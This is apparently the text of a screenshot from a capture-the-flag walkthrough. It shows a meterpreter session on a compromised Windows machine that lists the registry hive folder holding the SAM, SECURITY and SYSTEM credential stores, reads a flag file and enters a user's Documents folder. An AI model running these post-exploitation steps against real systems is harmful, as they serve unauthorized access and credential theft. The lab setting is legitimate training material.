 ```bash
100666/rw-rw-rw-  524288    fil   2009-07-14 05:54:56 +0100  COMPONENTS{016888b9-6c6f-11de-8d1d-001e0bcde3ec}.TMContainer00000000000000000002.regtrans-ms
100666/rw-rw-rw-  262144    fil   2009-07-14 03:34:08 +0100  DEFAULT
100666/rw-rw-rw-  1024      fil   2009-07-14 08:07:31 +0100  DEFAULT.LOG
100666/rw-rw-rw-  177152    fil   2009-07-14 03:34:08 +0100  DEFAULT.LOG1
100666/rw-rw-rw-  0         fil   2009-07-14 03:34:08 +0100  DEFAULT.LOG2
100666/rw-rw-rw-  65536     fil   2019-03-17 22:22:09 +0000  DEFAULT{016888b5-6c6f-11de-8d1d-001e0bcde3ec}.TM.blf
100666/rw-rw-rw-  524288    fil   2019-03-17 22:22:09 +0000  DEFAULT{016888b5-6c6f-11de-8d1d-001e0bcde3ec}.TMContainer00000000000000000001.regtrans-ms
100666/rw-rw-rw-  524288    fil   2019-03-17 22:22:09 +0000  DEFAULT{016888b5-6c6f-11de-8d1d-001e0bcde3ec}.TMContainer00000000000000000002.regtrans-ms
40777/rwxrwxrwx   0         dir   2009-07-14 04:20:10 +0100  Journal
40777/rwxrwxrwx   4096      dir   2009-07-14 04:20:10 +0100  RegBack
100666/rw-rw-rw-  262144    fil   2009-07-14 03:34:08 +0100  SAM
100666/rw-rw-rw-  1024      fil   2009-07-14 08:07:31 +0100  SAM.LOG
100666/rw-rw-rw-  21504     fil   2009-07-14 03:34:08 +0100  SAM.LOG1
100666/rw-rw-rw-  0         fil   2009-07-14 03:34:08 +0100  SAM.LOG2
100666/rw-rw-rw-  65536     fil   2019-03-17 22:22:09 +0000  SAM{016888c1-6c6f-11de-8d1d-001e0bcde3ec}.TM.blf
100666/rw-rw-rw-  524288    fil   2019-03-17 22:22:09 +0000  SAM{016888c1-6c6f-11de-8d1d-001e0bcde3ec}.TMContainer00000000000000000001.regtrans-ms
100666/rw-rw-rw-  524288    fil   2019-03-17 22:22:09 +0000  SAM{016888c1-6c6f-11de-8d1d-001e0bcde3ec}.TMContainer00000000000000000002.regtrans-ms
100666/rw-rw-rw-  262144    fil   2009-07-14 03:34:08 +0100  SECURITY
100666/rw-rw-rw-  1024      fil   2009-07-14 08:07:30 +0100  SECURITY.LOG
100666/rw-rw-rw-  21504     fil   2009-07-14 03:34:08 +0100  SECURITY.LOG1
100666/rw-rw-rw-  0         fil   2009-07-14 03:34:08 +0100  SECURITY.LOG2
100666/rw-rw-rw-  65536     fil   2019-03-17 22:22:08 +0000  SECURITY{016888c5-6c6f-11de-8d1d-001e0bcde3ec}.TM.blf
100666/rw-rw-rw-  524288    fil   2019-03-17 22:22:09 +0000  SECURITY{016888c5-6c6f-11de-8d1d-001e0bcde3ec}.TMContainer00000000000000000001.regtrans-ms
100666/rw-rw-rw-  524288    fil   2019-03-17 22:22:09 +0000  SECURITY{016888c5-6c6f-11de-8d1d-001e0bcde3ec}.TMContainer00000000000000000002.regtrans-ms
100666/rw-rw-rw-  40632320  fil   2009-07-14 03:34:08 +0100  SOFTWARE
100666/rw-rw-rw-  1024      fil   2009-07-14 08:07:30 +0100  SOFTWARE.LOG
100666/rw-rw-rw-  262144    fil   2009-07-14 03:34:08 +0100  SOFTWARE.LOG1
100666/rw-rw-rw-  0         fil   2009-07-14 03:34:08 +0100  SOFTWARE.LOG2
100666/rw-rw-rw-  65536     fil   2019-03-17 22:21:18 +0000  SOFTWARE{016888c9-6c6f-11de-8d1d-001e0bcde3ec}.TM.blf
100666/rw-rw-rw-  524288    fil   2019-03-17 22:21:18 +0000  SOFTWARE{016888c9-6c6f-11de-8d1d-001e0bcde3ec}.TMContainer00000000000000000001.regtrans-ms
100666/rw-rw-rw-  524288    fil   2019-03-17 22:21:18 +0000  SOFTWARE{016888c9-6c6f-11de-8d1d-001e0bcde3ec}.TMContainer00000000000000000002.regtrans-ms
100666/rw-rw-rw-  12582912  fil   2009-07-14 03:34:08 +0100  SYSTEM
100666/rw-rw-rw-  1024      fil   2009-07-14 08:07:30 +0100  SYSTEM.LOG
100666/rw-rw-rw-  262144    fil   2009-07-14 03:34:08 +0100  SYSTEM.LOG1
100666/rw-rw-rw-  0         fil   2009-07-14 03:34:08 +0100  SYSTEM.LOG2
100666/rw-rw-rw-  65536     fil   2019-03-17 22:21:15 +0000  SYSTEM{016888cd-6c6f-11de-8d1d-001e0bcde3ec}.TM.blf
100666/rw-rw-rw-  524288    fil   2019-03-17 22:21:15 +0000  SYSTEM{016888cd-6c6f-11de-8d1d-001e0bcde3ec}.TMContainer00000000000000000001.regtrans-ms
100666/rw-rw-rw-  524288    fil   2019-03-17 22:21:15 +0000  SYSTEM{016888cd-6c6f-11de-8d1d-001e0bcde3ec}.TMContainer00000000000000000002.regtrans-ms
40777/rwxrwxrwx   4096      dir   2009-07-14 04:20:10 +0100  TxR
100666/rw-rw-rw-  34        fil   2018-12-13 03:48:22 +0000  flag2.txt
40777/rwxrwxrwx   4096      dir   2009-07-14 04:20:10 +0100  systemprofile

meterpreter > cat flag2.txt
flag{sam_database_elevated_access}
meterpreter > cd C:\\Users\\Jon\\Documents\\
meterpreter > ls
Listing: C:\Users\Jon\Documents
```